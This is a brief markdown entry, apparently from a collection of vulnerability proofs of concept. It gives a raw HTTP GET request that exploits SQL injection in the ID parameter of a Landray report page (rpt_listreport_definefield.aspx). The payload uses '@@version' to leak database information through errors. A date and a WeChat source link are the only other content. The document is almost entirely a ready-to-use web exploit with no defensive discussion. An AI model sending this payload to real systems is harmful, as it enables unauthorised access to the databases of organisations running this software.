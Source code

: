 # landray_frpt_listreport_definefield_sqli

2024.3.4
@2
from: https://mp.weixin.qq.com/s/JczdS3Ko0n2gpLL4Yl-oiQ
```
GET /SM/rpt_listreport_definefield.aspx?ID=2%20and%201=@@version--+ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
```
